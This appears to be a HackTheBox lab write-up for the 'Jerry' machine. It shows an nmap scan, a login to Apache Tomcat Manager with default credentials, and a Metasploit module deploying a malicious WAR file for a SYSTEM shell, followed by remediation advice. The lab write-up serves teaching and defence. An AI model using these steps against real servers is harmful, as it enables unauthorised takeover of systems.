


# HTB — Jerry (Easy, Windows)

## Overview

Jerry is an easy Windows machine running Apache Tomcat. Default credentials grant access to the Tomcat Manager, which is used to deploy a malicious WAR file for a SYSTEM shell.

## Reconnaissance

### Port scan

````
$ nmap -sV -sC 10.129.136.9
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
````

A single service is exposed: Apache Tomcat 7.0.88 on port 8080.

## Exploitation

### Tomcat Manager default credentials → WAR deployment

The Tomcat Manager interface is reachable at `/manager/html` and requires authentication:



Trying common default Tomcat credentials (e.g. `tomcat:s3cret`) granted access to the Manager UI. The Manager allows deploying arbitrary WAR applications, so a WAR containing a JSP payload can be uploaded and executed. I generated and deployed one with Metasploit:

````
msf6 > use exploit/multi/http/tomcat_mgr_upload
msf6 > set RHOSTS 10.129.136.9
msf6 > set HttpUsername tomcat
msf6 > set HttpPassword s3cret
msf6 > run
````

Because the Tomcat service runs as `NT AUTHORITY\SYSTEM`, the deployed payload executed with SYSTEM privileges — no separate privilege-escalation step required:



````
C:\> whoami
nt authority\system
````

## Remediation

- **Default credentials:** Change or remove default Tomcat Manager accounts; enforce strong passwords.
- **Restrict the Manager:** Limit `/manager` access by IP and disable it where not needed.
- **Least privilege:** Run Tomcat under a dedicated low-privilege service account, not SYSTEM.
````
````